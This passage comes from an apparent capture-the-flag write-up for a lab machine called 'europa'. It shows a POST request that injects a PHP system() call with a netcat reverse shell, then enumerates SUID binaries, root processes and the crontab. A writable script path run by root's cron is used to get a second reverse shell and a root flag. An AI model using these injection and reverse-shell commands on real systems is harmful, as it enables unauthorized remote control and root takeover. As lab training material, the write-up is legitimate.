Cookie: PHPSESSID=09jj6hj8psto83lajmdr6i5093
Connection: close
Upgrade-Insecure-Requests: 1

pattern=%2FYOLO%2Fe&ipaddress=system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.32 1234 >/tmp/f")&text=YOLO
```


## System

```
$ cat /etc/issue
Ubuntu 16.04.2 LTS \n \l

$ uname -a
Linux europa 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:17:06 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

## Priv esc
```
find / -perm -4000 2>/dev/null | xargs ls -al
$ find / -perm -4000 2>/dev/null | xargs ls -al
-rwsr-xr-x 1 root   root        30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root   root        40152 Dec 16  2016 /bin/mount
-rwsr-xr-x 1 root   root       142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root   root        44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root   root        44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root   root        40128 May 17  2017 /bin/su
-rwsr-xr-x 1 root   root        27608 Dec 16  2016 /bin/umount
-rwsr-sr-x 1 daemon daemon      51464 Jan 15  2016 /usr/bin/at
-rwsr-xr-x 1 root   root        49584 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root   root        40432 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root   root        75304 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root   root        32944 May 17  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root   root        39904 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root   root        32944 May 17  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root   root        54256 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root   root        23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-xr-x 1 root   root       136808 May 29  2017 /usr/bin/sudo
-rwsr-xr-- 1 root   messagebus  42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root   root        10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root   root       428240 Mar 16  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root        14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root   root       208680 Apr 29  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root        38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```

```
$ ps aux -u root | grep root
root         1  0.1  0.6 122096  6324 ?        Ss   01:04   0:04 /sbin/init
root         2  0.0  0.0      0     0 ?        S    01:04   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    01:04   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   01:04   0:00 [kworker/0:0H]
root         7  0.0  0.0      0     0 ?        S    01:04   0:01 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    01:04   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        S    01:04   0:00 [migration/0]
root        10  0.0  0.0      0     0 ?        S    01:04   0:00 [watchdog/0]
root        11  0.0  0.0      0     0 ?        S    01:04   0:00 [watchdog/1]
root        12  0.0  0.0      0     0 ?        S    01:04   0:00 [migration/1]
root        13  0.0  0.0      0     0 ?        S    01:04   0:00 [ksoftirqd/1]
root        15  0.0  0.0      0     0 ?        S<   01:04   0:00 [kworker/1:0H]
root        16  0.0  0.0      0     0 ?        S    01:04   0:00 [kdevtmpfs]
root        17  0.0  0.0      0     0 ?        S<   01:04   0:00 [netns]
root        18  0.0  0.0      0     0 ?        S<   01:04   0:00 [perf]
root        19  0.0  0.0      0     0 ?        S    01:04   0:00 [khungtaskd]
root        20  0.0  0.0      0     0 ?        S<   01:04   0:00 [writeback]
root        21  0.0  0.0      0     0 ?        SN   01:04   0:00 [ksmd]
root        22  0.0  0.0      0     0 ?        SN   01:04   0:00 [khugepaged]
root        23  0.0  0.0      0     0 ?        S<   01:04   0:00 [crypto]
root        24  0.0  0.0      0     0 ?        S<   01:04   0:00 [kintegrityd]
root        25  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root        26  0.0  0.0      0     0 ?        S<   01:04   0:00 [kblockd]
root        27  0.0  0.0      0     0 ?        S<   01:04   0:00 [ata_sff]
root        28  0.0  0.0      0     0 ?        S<   01:04   0:00 [md]
root        29  0.0  0.0      0     0 ?        S<   01:04   0:00 [devfreq_wq]
root        31  0.0  0.0      0     0 ?        S    01:04   0:00 [kworker/0:1]
root        34  0.0  0.0      0     0 ?        S    01:04   0:00 [kswapd0]
root        35  0.0  0.0      0     0 ?        S<   01:04   0:00 [vmstat]
root        36  0.0  0.0      0     0 ?        S    01:04   0:00 [fsnotify_mark]
root        37  0.0  0.0      0     0 ?        S    01:04   0:00 [ecryptfs-kthrea]
root        53  0.0  0.0      0     0 ?        S<   01:04   0:00 [kthrotld]
root        54  0.0  0.0      0     0 ?        S<   01:04   0:00 [acpi_thermal_pm]
root        55  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root        56  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root        57  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root        58  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root        59  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root        60  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root        61  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root        62  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root        63  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_0]
root        64  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_0]
root        65  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_1]
root        66  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_1]
root        72  0.0  0.0      0     0 ?        S<   01:04   0:00 [ipv6_addrconf]
root        85  0.0  0.0      0     0 ?        S<   01:04   0:00 [deferwq]
root        86  0.0  0.0      0     0 ?        S<   01:04   0:00 [charger_manager]
root       132  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_2]
root       133  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_2]
root       134  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_3]
root       135  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_3]
root       136  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_4]
root       137  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_5]
root       138  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_5]
root       139  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_6]
root       140  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_4]
root       141  0.0  0.0      0     0 ?        S<   01:04   0:00 [ttm_swap]
root       142  0.0  0.0      0     0 ?        S<   01:04   0:00 [vmw_pvscsi_wq_4]
root       143  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_6]
root       144  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_7]
root       145  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_7]
root       146  0.0  0.0      0     0 ?        S<   01:04   0:00 [kpsmoused]
root       147  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_8]
root       152  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_8]
root       155  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_9]
root       157  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_9]
root       159  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_10]
root       160  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_10]
root       166  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_11]
root       178  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_11]
root       182  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_12]
root       184  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_12]
root       185  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_13]
root       186  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_13]
root       187  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_14]
root       188  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root       189  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_14]
root       191  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_15]
root       193  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_15]
root       195  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_16]
root       208  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_16]
root       209  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_17]
root       210  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_17]
root       211  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_18]
root       212  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_18]
root       213  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_19]
root       214  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_19]
root       215  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_20]
root       216  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_20]
root       217  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_21]
root       218  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_21]
root       219  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_22]
root       220  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_22]
root       221  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_23]
root       222  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_23]
root       223  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_24]
root       224  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_24]
root       225  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_25]
root       226  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_25]
root       227  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_26]
root       228  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_26]
root       229  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_27]
root       230  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_27]
root       231  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_28]
root       232  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_28]
root       233  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_29]
root       234  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_29]
root       235  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_30]
root       236  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_30]
root       237  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_31]
root       238  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_31]
root       239  0.0  0.0      0     0 ?        S    01:04   0:00 [scsi_eh_32]
root       240  0.0  0.0      0     0 ?        S<   01:04   0:00 [scsi_tmf_32]
root       266  0.0  0.0      0     0 ?        S    01:04   0:00 [kworker/u4:29]
root       267  0.0  0.0      0     0 ?        S    01:04   0:00 [kworker/u4:30]
root       270  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root       276  0.0  0.0      0     0 ?        S<   01:04   0:00 [kworker/0:1H]
root       343  0.0  0.0      0     0 ?        S<   01:04   0:00 [raid5wq]
root       369  0.0  0.0      0     0 ?        S<   01:04   0:00 [kdmflush]
root       370  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root       380  0.0  0.0      0     0 ?        S<   01:04   0:00 [kdmflush]
root       381  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root       394  0.0  0.0      0     0 ?        S<   01:04   0:00 [bioset]
root       417  0.0  0.0      0     0 ?        S    01:04   0:00 [jbd2/dm-0-8]
root       418  0.0  0.0      0     0 ?        S<   01:04   0:00 [ext4-rsv-conver]
root       464  0.0  0.0      0     0 ?        S<   01:04   0:00 [kworker/1:1H]
root       474  0.0  0.3  30412  3224 ?        Ss   01:04   0:00 /lib/systemd/systemd-journald
root       478  0.0  0.0      0     0 ?        S<   01:04   0:00 [iscsi_eh]
root       498  0.0  0.0      0     0 ?        S    01:04   0:00 [kauditd]
root       509  0.0  0.0      0     0 ?        S<   01:04   0:00 [ib_addr]
root       513  0.0  0.1 105024  1564 ?        Ss   01:04   0:00 /sbin/lvmetad -f
root       519  0.0  0.0      0     0 ?        S<   01:04   0:00 [ib_mcast]
root       520  0.0  0.0      0     0 ?        S<   01:04   0:00 [ib_nl_sa_wq]
root       521  0.0  0.0      0     0 ?        S<   01:04   0:00 [ib_cm]
root       523  0.0  0.0      0     0 ?        S<   01:04   0:00 [iw_cm_wq]
root       524  0.0  0.0      0     0 ?        S<   01:04   0:00 [rdma_cm]
root       543  0.0  0.4  47516  4804 ?        Ss   01:04   0:01 /lib/systemd/systemd-udevd
root       867  0.0  0.0      0     0 ?        S<   01:04   0:00 [ext4-rsv-conver]
root      1058  0.0  0.1   6448  1224 ?        Ss   01:04   0:00 /usr/sbin/acpid
root      1063  0.1  2.3 288308 23616 ?        Ssl  01:04   0:06 /usr/lib/snapd/snapd
root      1066  0.0  0.2  29784  2832 ?        Ss   01:04   0:00 /usr/sbin/cron -f
root      1068  0.0  0.9 186380  9580 ?        Ssl  01:04   0:02 /usr/bin/vmtoolsd
root      1073  0.0  0.1  22156  1220 ?        Ss   01:04   0:00 /lib/systemd/systemd-logind
root      1076  0.0  0.5 276536  6016 ?        Ssl  01:04   0:00 /usr/lib/accountsservice/accounts-daemon
root      1081  0.0  0.3 533252  4020 ?        Ssl  01:04   0:00 /usr/bin/lxcfs /var/lib/lxcfs/
root      1133  0.0  0.5 279236  5808 ?        Ssl  01:04   0:00 /usr/lib/policykit-1/polkitd --no-debug
root      1151  0.0  0.0  15424   172 ?        Ss   01:04   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
root      1167  0.0  0.0      0     0 ?        S    01:04   0:00 [kworker/0:3]
root      1238  0.0  0.6  67576  6156 ?        Ss   01:04   0:00 /usr/sbin/sshd -D
root      1263  0.0  0.0   7272   160 ?        Ss   01:04   0:00 /sbin/iscsid
root      1264  0.0  0.4   7772  4556 ?        S<Ls 01:04   0:00 /sbin/iscsid
root      1368  0.0  0.1  16708  1688 tty1     Ss+  01:04   0:00 /sbin/agetty --noclear tty1 linux
root      1369  0.0  0.2  21672  2132 ?        Ss   01:04   0:00 /usr/sbin/irqbalance --pid=/var/run/irqbalance.pid
root      1386  0.0  2.4 306952 25392 ?        Ss   01:05   0:00 /usr/sbin/apache2 -k start
root      1943  0.0  0.0      0     0 ?        S    01:19   0:00 [kworker/1:0]
root      2106  0.0  0.0      0     0 ?        S    01:39   0:00 [kworker/1:2]
root      2284  0.0  0.0      0     0 ?        S    02:07   0:00 [kworker/u4:0]
www-data  2295  0.0  0.2  36480  2900 ?        R    02:08   0:00 ps aux -u root
www-data  2296  0.0  0.1  13340  1032 ?        S    02:08   0:00 grep root
```
```
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *	root	/var/www/cronjobs/clearlogs

$ ls -al /var/www/cronjobs/clearlogs
-r-xr-xr-x 1 root root 132 May 12  2017 /var/www/cronjobs/clearlogs

$ cat /var/www/cronjobs/clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>

$ ls -al /var/www/cmd/logcleared.sh
ls: cannot access '/var/www/cmd/logcleared.sh': No such file or directory

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 4445 >/tmp/f" > /var/www/cmd/logcleared.sh
chmod a+x /var/www/cmd/logcleared.sh
```

```
# nc -lvp 4445
listening on [any] 4445 ...
connect to [10.10.14.32] from europa [10.10.10.22] 49838
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
XXXXXXXXXXXXXX
# exit

```


